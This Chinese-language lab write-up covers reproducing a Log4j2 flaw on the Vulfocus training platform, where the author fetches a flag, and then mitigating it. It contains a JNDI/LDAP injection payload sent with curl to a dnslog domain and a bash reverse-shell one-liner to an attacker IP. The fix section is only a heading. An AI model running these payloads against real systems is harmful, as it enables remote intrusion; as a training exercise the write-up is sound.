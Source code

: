 # Log4j2漏洞复现及修复

## 进入Vulfocus平台：通过克隆资源中的仓库地址来实现平台的搭建，启动vulfocus并找到log4j2漏洞，启动该漏洞
![](./启动vulfocus.png)
## 得到此漏洞的入口靶标，访问此地址正式进入当前环境测试URL
![](./log4j漏洞环境启动.png)
## 通过docker ps指令得到容器名称和ID,进入到此容器的环境,同时将环境路径下的demo.jar拷贝到宿主机
![](./容器名称.png)
![](./进入容器环境.png)
![](./克隆.jar包到宿主机.png)
## 通过反编译工具得到漏洞源代码，从而分析漏洞代码部分
![](./反编译.jar包源代码.png)
![](./漏洞源码.png)
## 分析源码得到漏洞部分代码为“logger.error("{}",payload);logger.info("{}",payload);”
## 验证漏洞可利用性：使用Poc手动测试漏洞，其中利用dnslog.cn生成随机域名
![](./获取dns.png)
## 使用curl指令触发一次域名解析请求
![](./触发域名解析请求.png)
![](./请求记录.png)

### 此处我通过运行curl -X POST http://192.168.164.5:24645/he11o -d 'payload="$findi:ldap://ongzd7.dnslog.cn/asas}"'会出现报错，通过询问大模型得知漏洞入口靶标的端口不支持POST方法，于是更改了指令运行
![](./报错分析.png)

## 漏洞利用效果评估：通过在靶机中的单独测试有效负载来连接攻击机反弹窗口，验证反弹shell的成功利用
![](./反弹shell.png)
## 通过对靶机的监听可以在/tmp目录下得到靶标文件，里面记录了漏洞flag
![](./漏洞flag.png)

### 其中遇到了运行bash -i >& /dev/tcp/192.168.164.4/7777 0>&1进行反弹窗口连接报错问题，后来发现是shell解释器的环境不支持该语法，出现了重镜像语法错误
![](./负载测试报错分析.png)
![](./靶机测试有效负载报错.png)
### 于是替换显式使用 bash 执行命令即可成功。

## 漏洞缓解并验证：改变漏洞环境变量，重新解析dns请求发现没有更新记录
![](./修改环境变量.png)
![](./验证变量修改.png)
![](./无解析请求.png)
## 漏洞修复并验证